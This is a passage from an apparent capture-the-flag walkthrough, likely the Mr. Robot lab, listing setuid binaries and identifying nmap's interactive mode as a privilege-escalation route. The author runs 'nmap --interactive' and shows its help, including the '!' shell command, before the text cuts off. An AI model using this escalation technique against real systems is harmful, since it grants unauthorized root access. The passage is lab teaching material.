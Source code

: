 ```
/usr/bin/mail-unlock
/usr/bin/mail-lock
/usr/bin/chsh
/usr/bin/crontab
/usr/bin/chfn
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/expiry
/usr/bin/dotlockfile
/usr/bin/sudo
/usr/bin/ssh-agent
/usr/bin/wall
/usr/local/bin/nmap
/usr/local/share/xml
/usr/local/share/xml/schema
/usr/local/share/xml/declaration
/usr/local/share/xml/misc
/usr/local/share/xml/entities
/usr/local/share/ca-certificates
/usr/local/share/sgml
/usr/local/share/sgml/dtd
/usr/local/share/sgml/declaration
/usr/local/share/sgml/stylesheet
/usr/local/share/sgml/misc
/usr/local/share/sgml/entities
/usr/local/share/fonts
/usr/local/lib/python2.7
/usr/local/lib/python2.7/dist-packages
/usr/local/lib/python2.7/site-packages
/usr/local/lib/python3.4
/usr/local/lib/python3.4/dist-packages
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
/var/local
/var/lib/libuuid
/var/mail
/sbin/unix_chkpwd
```
Analyzing the output of the command, it looks like I can priv esc using nmap (```/usr/local/bin/nmap```) in interactive mode (https://vk9-sec.com/nmap-privilege-escalation/). 
```
robot@linux:~$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
```
Nmap has some cool commands in interactive mode that I didnt know about. 
```
nmap> h
h
Nmap Interactive Commands:
n <nmap args> -- executes an nmap scan using the arguments given and
waits for nmap to finish.  Results are printed to the
screen (of course you can still use file output commands).
! <command>   -- runs shell command given in the foreground
x             -- Exit Nmap
f [--spoof <fakeargs>] [--nmap_path <path>] <nmap args>
-- Executes nmap in the background (results are NOT
printed to the screen).  You should generally specify a
file for results (with -oX, -oG, or -oN).  If you specify
```